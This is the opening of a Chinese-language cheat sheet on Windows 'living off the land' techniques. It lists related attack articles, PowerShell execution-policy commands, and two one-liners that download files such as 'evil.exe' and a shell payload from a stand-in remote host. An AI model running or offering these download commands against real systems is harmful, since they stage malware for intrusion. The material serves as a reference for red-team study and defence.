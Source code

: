 # Windows-LOL

`Living Off The Land`

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [Get Reverse-shell via Windows one-liner](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)
- [What Are LOLBins and How Do Attackers Use Them in Fileless Attacks? - Cynet](https://www.cynet.com/attack-techniques-hands-on/what-are-lolbins-and-how-do-attackers-use-them-in-fileless-attacks/)
- [Windows文件下载执行的15种姿势](https://mp.weixin.qq.com/s/tINvBuhiZwz7MbA_sffapA)
- [命令行上线小技巧](https://blog.m1kh.com/index.php/archives/694/)

**相关资源**
- [LOLBAS](https://lolbas-project.github.io/)

---

# Powershell

## 开启执行策略

```powershell
set-ExecutionPolicy RemoteSigned
```

## 关闭执行策略

```powershell
set-ExecutionPolicy Restricted
```

## 远程下载文件保存在本地

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.1/1/evil.txt','evil.exe')

# 或

$h=new-object System.Net.WebClient
$h.DownloadFile('https://xxx.com/payload/shell/test.sh','C:\Users\xxx\Desktop\test\test.sh')
```
